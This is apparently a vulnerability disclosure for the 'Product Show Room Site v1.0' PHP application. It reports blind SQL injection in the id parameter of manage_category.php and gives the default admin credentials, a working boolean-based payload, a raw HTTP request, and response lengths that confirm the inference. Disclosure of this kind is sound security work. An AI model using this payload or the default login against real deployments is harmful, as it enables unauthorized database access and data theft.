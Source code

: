 # Product Show Room Site v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15370/product-show-room-site-phpoop-free-source-code.html

Vulnerability File: /psrs/admin/categories/manage_category.php?id=

Vulnerability location: /psrs/admin/categories/manage_category.php?id=, id

Current database name: psrs_db ,length is 7

[+] Payload: /psrs/admin/categories/manage_category.php?id=1%27%20and%20length(database())%20=7--+ // Leak place ---> id

```sql
GET /psrs/admin/categories/manage_category.php?id=1%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```

When length (database ()) = 6, Content-Length: 2070
![image](https://user-images.githubusercontent.com/54017627/171829566-c5f70e8b-cb0a-436d-8216-ff3c5127974c.png)

![image](https://user-images.githubusercontent.com/54017627/171829639-621d2a72-d2fe-40a8-8e74-f20e6dad0962.png)

When length (database ()) = 7, Content-Length: 2083
![image](https://user-images.githubusercontent.com/54017627/171829535-aae1ebba-ca62-4889-9373-d43ced83fbb9.png)

![image](https://user-images.githubusercontent.com/54017627/171829599-380eaf5f-856c-485a-a24e-6db8dd83ec56.png)
